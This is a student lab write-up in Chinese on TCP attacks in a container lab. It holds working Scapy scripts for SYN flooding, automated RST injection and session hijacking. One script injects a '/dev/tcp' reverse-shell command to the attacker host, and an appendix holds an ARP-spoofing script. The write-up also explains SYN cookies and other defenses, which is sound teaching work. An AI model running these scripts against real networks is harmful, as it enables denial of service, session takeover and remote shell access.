# TCP攻击实验
## 实验主题
• TCP 协议
• TCP SYN 泛洪攻击和 SYN cookies
• TCP 重置攻击
• TCP 会话劫持攻击
• 反向 Shell
## 实验环境搭建
1. 
2. 容器设置和命令：与上文一样不再赘述
3. 攻击者容器
   1. 共享文件夹：与上文一样不再赘述
   2. 主机模式：与上文一样不再赘述
4. seed账号：在本实验中，需要从一个容器 telnet 到另一个容器。已经在所有容器中创建了一个名为seed 的帐号，密码为 dees
## 实验内容
### 任务一：SYN泛洪攻击
   1. python实现攻击
      1. 代码实现：
         ```python
         from scapy.all import *
         synpkt=IP(dst="10.9.0.5")/TCP(dport=23,flags='S')
         while True:
            synpkt[IP].src=RandIP("10.9.0.0/24")
            synpkt[TCP].sport=RandNum(100,65535)
            synpkt[TCP].seq=RandNum(1, 4294967295)
            send(synpkt,iface="br-32c3e1207c4c",verbose=1)
         ```
      2. 验证攻击
         1. 进入用户容器使用telnet连接服务端连接成功说明攻击失败
         2. 查看服务端的连接队列虽然被大量半连接状态机填满但正常的telnet连接仍建立成功
         3. 增加同时运行的程序数量
            1. 尝试同时运行两个程序是否能攻击成功不行
            2. 尝试同时运行三个程序
            3. 同时运行8个程序时发起telnet连接时就有些卡顿但还是可以建立成功
            4. 同时运行11个程序用户已经无法建立telnet连接
         4. 只运行一个程序减少服务端的半连接队列大小
            1. 将队列大小减小为60重新进行攻击，telnet连接优先卡顿但仍可以建立连接
            2. 将队列大小减小为40重新攻击，连接非常卡顿，但还是可以建立连接不行
            3. 将队列大小减小为30已经无法建立telnet连接
   2. c语言实现攻击
      1. 将队列大小回复初始值
      2. 使用c语言程序发起攻击
      3. 攻击现象差异：只运行一个c语言程序并且保持队列大小为默认值就可以阻止telnet连接建立
      4. 原因：
         1. C语言效率更高，能够以线速发送数据包
         2. Python的Scapy每包处理开销大，速度慢
         3. C攻击更容易填满半连接队列
   3. 启用SYN Cookie防御机制
      1. 运行c程序发起攻击，在用户容器中发起telnet连接成功建立连接，原本可以成功的攻击失败了
      2. 原因：
         SYN cookie原理：
         1. 不分配半连接资源，而是将连接信息编码到SYN+ACK序列号中
         2. 收到ACK包后解码验证，合法则分配资源
         3. 即使队列满了也可以接收合法连接
### 任务二：TCP会话重置（自动化）
   1. 代码实现
      ```python
      from scapy.all import *
      def sendrstpkt(pkt):
         if pkt[TCP].flags & 0x10:
            rstseq=pkt[TCP].ack
            if pkt[TCP].payload:
               rstack=pkt[TCP].seq+len(pkt[TCP].payload.load)
            else:
               rstack=pkt[TCP].seq
            ip=IP(src=pkt[IP].dst,dst=pkt[IP].src)
            tcp=TCP(sport=pkt[TCP].dport,dport=pkt[TCP].sport,flags="R")
            tcp.seq=rstseq
            tcp.ack=rstack
            rstpkt=ip/tcp
            send(rstpkt,iface="br-32c3e1207c4c",verbose=0)
      pkt=sniff(filter="tcp and src host 10.9.0.5",iface="br-32c3e1207c4c",prn=sendrstpkt,store=0)
      ``` 
   2. 攻击验证
      1. 用户A与服务端建立telnet连接
      2. 运行程序进行攻击
      3. 在用户机器上给服务端发送信息连接被断开
      4. 查看wireshark的数据包发现攻击者程序伪造的RST包，服务端给用户返回的RST响应包
### 任务三：TCP会话劫持（自动化）
   1. 代码实现
      ```python
      from scapy.all import *
      processed_connections=set()
      def get_connections_id(pkt):
         src_ip=pkt[IP].src
         src_port=pkt[TCP].sport
         dst_ip=pkt[IP].dst
         dst_port=pkt[TCP].dport
         if src_port>dst_port:
            return f"{src_ip}:{src_port}-{dst_ip}:{dst_port}"
         else:
            return f"{dst_ip}:{dst_port}-{src_ip}:{src_port}" 
      def sendackpkt(pkt):
         connid=get_connections_id(pkt)
         if connid in processed_connections:
            return
         else:
            if pkt[TCP].flags & 0x10:
               ip=IP(src=pkt[IP].dst,dst=pkt[IP].src)
               tcp=TCP(sport=pkt[TCP].dport,dport=pkt[TCP].sport,flags="A")
               tcp.seq=pkt[TCP].ack
               if pkt[TCP].payload:
                  tcp.ack=pkt[TCP].seq+len(pkt[TCP].payload.load)
               else:
                  tcp.ack=pkt[TCP].seq
               data="echo 'hello hack!' > /tmp/1.txt\n"
               ackpkt=ip/tcp/data
               send(ackpkt,iface="br-32c3e1207c4c",verbose=0)
            processed_connections.add(connid)
      pkt=sniff(filter="tcp and src host 10.9.0.5",iface="br-32c3e1207c4c",prn=sendackpkt,store=0)
      ``` 
   2. 攻击验证
      1. 建立用户端和服务端的telnet连接后运行攻击者程序
      2. 在用户端随便键入字符观察wireshark抓包情况程序成功劫持会话，给服务端发送注入恶意命令的数据包
      3. 在服务端查看命令是否执行成功命令执行成功
### 任务四：利用会话劫持创建反向shell
   1. 攻击背景：利用TCP会话劫持运行很多命令非常不方便，所以需要在受害者机器上建立一个反向shell连接到攻击者机器上从而实现执行更多命令
   2. 核心思路：通过TCP会话劫持运行建立反向shell的命令，然后通过该反向shell实现在受害者机器上执行更多命令
   3. 在攻击者机器上运行netcat监听9999端口等待受害者机器的反向shell连接
   4. 代码实现：
      ```python
      from scapy.all import *
      processed_connections=set()
      def get_connections_id(pkt):
         src_ip=pkt[IP].src
         src_port=pkt[TCP].sport
         dst_ip=pkt[IP].dst
         dst_port=pkt[TCP].dport
         if src_port>dst_port:
            return f"{src_ip}:{src_port}-{dst_ip}:{dst_port}"
         else:
            return f"{dst_ip}:{dst_port}-{src_ip}:{src_port}" 
      def sendackpkt(pkt):
         connid=get_connections_id(pkt)
         if connid in processed_connections:
            return
         else:
            if pkt[TCP].flags & 0x10:
               ip=IP(src=pkt[IP].dst,dst=pkt[IP].src)
               tcp=TCP(sport=pkt[TCP].dport,dport=pkt[TCP].sport,flags="A")
               tcp.seq=pkt[TCP].ack
               if pkt[TCP].payload:
                  tcp.ack=pkt[TCP].seq+len(pkt[TCP].payload.load)
               else:
                  tcp.ack=pkt[TCP].seq
               data="\r\n/bin/bash -i > /dev/tcp/10.9.0.1/9999 0<&1 2>&1\n"
               ackpkt=ip/tcp/data
               send(ackpkt,iface="br-32c3e1207c4c",verbose=0)
            processed_connections.add(connid)
      pkt=sniff(filter="tcp and src host 10.9.0.5",iface="br-32c3e1207c4c",prn=sendackpkt,store=0)
      ``` 
   5. 攻击验证：
      1. 建立用户端和服务端的telnet连接后运行攻击者程序
      2. 在用户端随便键入字符观察攻击者机器上netcat连接情况成功获得受害者机器上的shell
      3. 在该shell中执行命令过程是否成功命令成功执行
## 实验总结
1. 踩坑
   1. 任务一中，内核的防御机制：当用户与服务端已经建立telnet连接后就不受SYN Flooding影响
   2. 任务三中，恶意指令内容需要加换行符，telnet需要换行符来执行指令
   3. 任务三中，恶意程序的嗅探过滤要防止重复抓到服务端对伪造ack数据包的响应包导致先让循环
      解决方案：使用连接ID记录已攻击的连接，防止重复攻击，这是避免循环的最有效方法！ 
      示例：
         ```python
         processed_connections=set()#创建已经处理的连接集合
         #获取无方向连接标识
         def connections_id(pkt):
            src_ip=pkt[IP].src
            src_port=pkt[TCP].sport
            dst_ip=pkt[IP].dst
            dst_port=pkt[TCP].dport
            #进行排序实现无方向性
            if src_port>dst_port:
               return f"{src_ip}:{src_port}-{dst_ip}:{dst_port}"
            else:
               return f"{dst_ip}:{dst_port}-{src_ip}:{src_port}" 
         ```
2. 问题与思考
   1. 为什么ack=对方的seq+数据长度
      TCP确认号核心原理：
      图解说明：
   2. 任务2中telnet连接建立后开启wireshark抓包，然后运行rst包发送程序，在用户端输入11后抓到的包以及一些现象详解：
      1. 现象 
         1. 输入第一个1后抓到了6个包，但用户端显示连接好像并没有立即断开
         2. 输入第二个1后又抓到了两个包，用户端显示连接断开
      2. 原因：
         1. 输入第一个1后wireshark中第一个包就是用户给服务端发送的1
         2. 第二个数据包是服务端给用户返回的ACK响应包告诉用户端数据包已收到
         3. 第三个数据包服务端给用户返回的payload为“1”的数据包，用于将用户键入的内容显示在用户屏幕上
         4. 第四个数据包是用户给服务端返回的ACK响应包告诉服务端数据包已收到
         5. 第五个数据包是攻击者程序伪造的RST包对应服务端发送的ACK响应包
         6. 第六个数据包是攻击者程序伪造的RST数据包对应服务端给用户返回的payload为“1”的数据包
         7. 程序发送的RST数据包比用户返回的ACK响应包慢所以用户输入第一个1时成功回显，但当服务端收到程序伪造的RST数据包时就断开连接了只是用户端没有显示
         8. 所以当用户输入第二个1时提示连接已经端口，并且服务端返回RST包告知用户端
   3. 任务3中，为什么当会话劫持成功后结束攻击者程序，在被劫持的telnet连接的用户端键入字符，发现没有反应，wireshark出现大量这种包
      原因：TCP序列号不同步
      攻击前后对比： 
      抓包解读：
         Spurious Retransmission（虚假重传）
            含义：客户端认为需要重传，但服务器已经收到过这些数据
            原因：序列号/确认号不同步
         Dup ACK（重复确认）
            含义：服务器重复发送相同的ACK
            原因：服务器不断告诉客户端"你应该发送seq=xxx"
      不过在该任务中只需要劫持会话进行一次性命令注入即可，所以客户端序列号不同步也无伤大雅
3. 知识点
   1. TCP协议
      1. 核心定位与关键特性
         1. 面向连接：通过握手协商参数，分配资源，建立状态机【状态机可被非法触发（如非法FIN/RST）导致连接重置或资源耗尽】
         2. 可靠传输：序列号，确认应答，超时重传【一来Seq/Ack的确定性，成为TCP劫持和RST攻击的核心利用点】
         3. 字节流服务：无报文边界，数据合并/拆分传输【攻击者注入数据需要精确对齐流边界，否则会导致应用层解析错误或TCP重置】
         4. 全双工与滑动窗口：独立收发通道，动态调节接收缓冲区【窗口机制可被操纵进行慢速DoS或ACK风暴】
      2. 报文结构与安全映射
         1. 
         2. 关键字段的安全视角
            1. Flags控制位组合（防火墙/IDS逃逸基础）
               1. NULL：部分旧协议栈直接丢弃，现代WAF可能标记为异常
               2. FIN+PSH+URG：Nmap圣诞树扫描，利用异常标志位探测端口状态
               3. SYN+FIN：非法组合，触发触发协议栈错误处理路径，可用于指纹识别
               4. RST：用于暴力断开连接，是防火墙主动阻断流量的标准手段
            2. 序列号与确认号
               1. TCP可靠性的基石，攻击者必须精确预测或获取准确Seq/Ack才能注入有效数据或劫持会话
               2. 盲劫持失败的原因：现代ISN（Initial Sequence Number）采用密码学随机化，预测难度极大
            3. Window（窗口大小）：接收方缓冲区剩余空间
               1. 攻击者可发送Window=0强制对端停止发送，或通过窗口探测包探测系统状态
               2. 零窗口死锁：若探测包丢失则连接永久挂起
            4. TCP Option（选项）
               1. MSS：伪造报文最大长度可能导致目标分配超大接收缓冲器，用于资源耗尽攻击
               2. Timestamps：时间戳选项。虽用于 RTT 测量，但泄露了系统运行时间，可能被辅助用于 ISN 预测（旧实现漏洞）
      3. 连接机状态与攻击面
         1. SYN_SENT（SYN已发送）：伪造SYN+ACK进行欺骗
         2. SYN_RCVD半连接状态：SYN Flood攻击
         3. ESTABLISHED：
            1. TCP会话重置
            2. TCP会话劫持
            3. 注入恶意数据建立反向shell
      4. 流量控制机制与滥用
         1. 流量控制与拥塞控制
            1. 机制：基于接收窗口和拥塞窗口的动态调整，避免网络拥塞和接收端溢出
            2. 滥用：
               1. 慢速DoS：攻击者保持连接但极慢的发送数据，耗尽服务器的并发连接池
               2. ACK分片攻击：将确认号切分，迫使接收端进入快速重传或拥塞避免状态，降低吞吐量
         2. 保活机制：
            1. 机制：空闲连接定期发送探测包，确认对端是否存活
            2. 滥用：攻击者可以伪造Keep-Alive，维持僵尸连接，绕过防火墙的空闲超时策略
      5. 安全演进与实战视角
   2. TCP SYN泛洪攻击和SYN cookies
      1. 核心机制：利用TCP三层握手服务端资源预分配特性，耗尽半连接队列
          
      2. 关键技术细节
         1. TCB结构（队列大小）：现代 Linux 每个半连接约消耗 320~500 字节内存，队列长度受 net.ipv4。tcp_max_syn_backlog 限制。能储存的半连接状态机的数量（队列大小）也会影响成功率
         2. SYN Ccookies绕过：若服务端启用syncookies或中间设备（WAF/防火墙）有状态跟踪，纯SYN Flooding仍有效
         3. 发送速度：在发出SYN-ACK包后服务端将等待ACK数据包，如果没有及时到来就会重传SYN-ACK数据包，当重传次数超过限制（由内核参数l net.ipv4.tcp_synack_retries决定，默认为5）就会将相应的半连接状态机从队列中清除，这时队列会出现一个空位，我们构造的SYN包会和合法的连接请求数据包竞争这个空位，因此如果发包速度不够快可能会导致攻击失败
      3. 现代防御
         1. 内核默认开启syncookies（无握手状态认证不分配TCB）
         2. 云厂商/高防提供流量清洗与指纹过滤（丢弃无源验证或特征异常的 SYN）
         3. 中间件部署 SYN proxy 代理完成握手后再回源
   3. TCP会话重置
      1. 核心机制：伪造RST报文强制中断已建立的TCP连接
      2. 生效条件：
         1. 必须包含正确的四元组（src_ip,src_port,dst_ip,dst_port）
         2. RST的seq必须落在接收方的当前接收窗口内（理想情况是精确等于RCV.NXT）
         3. 部分实现要求RST的校验和正确，TTL/窗口大小合理
      3. 攻击流程
         ```
                     嗅探流量
                        |
               提取四元组与当前seq/ack
                        |
            构造RST包（seq等于目标期望的下一个序列号）
                        |
                     注入网络
                        |
                  接收方校验通过
                        |
                 状态机跳至CLOSED
                        |
                     连接断开
         ``` 
      4. 实战难点
         1. 盲打失败率高：现代系统ISN采用密码学随机化，且窗口滑动快，猜中概率低
         2. ACK风暴风险：若RST仅被单方接受，另一方仍会发送ACK/PHSH，引发双向RST循环
      5. 防御引进
         1. RFC 5961 引入窗口外 RST 丢弃与确认号挑战
         2. 启用 TCP Timestamps 增加伪造难度
         3. 业务层使用 TLS 加密，即使连接被断也无法直接注入/读取数据
   4. 通过TCP会话劫持建立反向Shell
      1. TCP会话劫持的核心机制：冒充合法端点，向服务端注入恶意数据，接管已经建立的TCP会话
      2. 反向shell原理：不是独立的网络层攻击，而是在劫持的TCP流只注入可执行指令，并将I/O重定向到攻击者机器的应用层利用链
      3. 实现前提：
         1. 目标服务为铭明文协议（Telnet，FTP，HTTP，nc，自定义TCP服务）
         2. 攻击者以获取当前流的正确seq/ack，并且可以绕过应用层输入校验
         3. 目标系统支持命令行执行（如sh，bash，cmd）
      4. 关键技术点：
         1. 序列对齐：注入包的seq必须等于服务端期望的下一个字节序号，否则会被丢弃
         2. 协议上下文：HTTP 需符合 Request 格式；Telnet 需处理 IAC 协商；自定义协议需逆向前置字段
         3. I/O重定向：使用/dev/tcp或nc -e建立反向连接
         4. 会话维持：原始客户端若继续发包会触发 ACK 风暴，需提前降权或阻断原始端流量
# 知识点关联汇总
1. python中的subprocess库：python标准库中用于创建和管理子进程的模块
   1. 用途：使在python脚本中能够启动外部程序或系统命令，并与它们进行交互
   2. 核心功能
      1. 运行系统命令
         ```python
         result=subprocess.run(["ls","-l"],capture_output=True,text=True)
         print(result.stdout)
         #执行系统命令并等待执行结果
         ```
      2. 执行外部程序
         ```python
         subprocess.run(["python","other_script.py"])
         #执行其他python脚本
         ``` 
      3. 获取命令输出
         ```python
         result=subprocess.run(["echo","hello"],capture_output=True,text=True)#执行命令并等待执行结果
         print(result.stdout)#输出执行结果
         print(result.returncode)#输出返回码
         ``` 
   3. 常用场景
      1. 系统管理：执行mkdir，copy，rm等系统命令
      2. 调用其他程序：在python中调用编译好的c/c++,java程序等
      3. 数据处理：通过管道符将数据传给awk，grep等命令行工具
      4. 自动化操作：自动执行需要命令行的任务
   4. 常用函数
      1. subprocess.run()：运行命令并等待完成
      2. subprocess.Popen()：更接近底层的接口，支持实时交互
      3. subprocess.check_output()：获取命令输出
      4. subprocess.call()：运行命令并返回状态码
2. 多线程（python实现）
   1. 线程的概念：线程是操作系统能够进行运算调度的最小单位。一个进程可以有多个线程，它们共享进程的内存空间
       
   2. python threading模块实现简单多线程
      1. 示例代码：
         ```python
         from scapy.all import *
         import threading
         import time
         #告诉B我是A
         pkt_to_B=Ether(src="02:42:0a:09:00:69",dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,psrc="10.9.0.5",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.6",hwdst="ff:ff:ff:ff:ff:ff")
         #告诉A我是B
         pkt_to_A=Ether(src="02:42:0a:09:00:69",dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,psrc="10.9.0.6",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.5",hwdst="ff:ff:ff:ff:ff:ff")
         def attack_A(pkt_to_A):
            sendp(pkt_to_A,loop=1,inter=5,iface="eth0",verbose=0)
         def attack_B(pkt_to_B):
            sendp(pkt_to_B,loop=1,inter=5,iface="eth0",verbose=0)
         t1=threading.Thread(target=attack_A,args=(pkt_to_A,))
         t2=threading.Thread(target=attack_B,args(pkt_to_B,))
         t1.start()
         t2.start()
         ti.join()
         t2.join()
         ``` 
      2. 核心概念详解：
         1. Thread(target=函数名)：创建线程对象
         2. start()：启动线程（开始执行）
         3. join()：等待线程执行完毕
         4. args(参数,)：传递给函数的参数（注意逗号）
